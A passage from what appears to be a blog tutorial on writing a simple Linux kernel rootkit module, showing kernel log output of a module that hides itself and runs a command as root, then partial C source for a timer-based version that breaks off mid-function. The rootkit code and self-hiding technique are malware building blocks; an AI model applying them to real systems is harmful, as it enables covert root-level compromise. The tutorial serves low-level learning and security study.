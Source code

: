 localhost kernel: [   31.817563] [DISP] layer allocated: 0,101
localhost kernel: [  178.496962] rootkit_mod loading.
localhost kernel: [  178.502902] rootkit_mod hidind itself.
localhost logger: root!
localhost kernel: [  179.522694] rootkit_mod done.
{% endcodeblock %}

Ok everything was nice, printk goes into dmesg, "root!" message goes to logger, we created a simple rootkit.
So what can be next.. **msleep()** looks dummy in our cool example, let's replace it with something more awesome, let's create a timer that will asynchronously call our module!

{% codeblock lang:c  rootkitmod_wrong.c https://github.com/gotoco/low_level_stuff/blob/master/simplest_rootkit/rootkitmod_wrong.c see on github %}
 WARNING THIS CODE WILL CRASH YOUR SYSTEM! So Dont run it on workstation

#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/rculist.h>
#include <linux/sysfs.h>
#include <linux/delay.h>

static struct timer_list my_timer;

static int simple_usp_runner(void)
{
  char *argv[] = { "/usr/bin/logger", "root!", NULL };
  static char *envp[] = {
        "HOME=/",
        "TERM=linux",
        "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

  return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
}

void rootkit_callback(unsigned long data)
{
  printk(KERN_INFO "rootkit_callback (%ld).\n", jiffies);

  simple_usp_runner();
}

static int __init rootkit_init(void)
{
  int ret;  
  struct module *mod = THIS_MODULE;

  printk(KERN_INFO "rootkit_mod setting up the timer.\n");

/*
  Lets setup simple timer. Timer resolution depends on kernel parameters
  but don't dream about anything better than 1Hz.
*/
  setup_timer(&my_timer, rootkit_callback, 0);
  ret = mod_timer(&my_timer, jiffies + msecs_to_jiffies(1000));
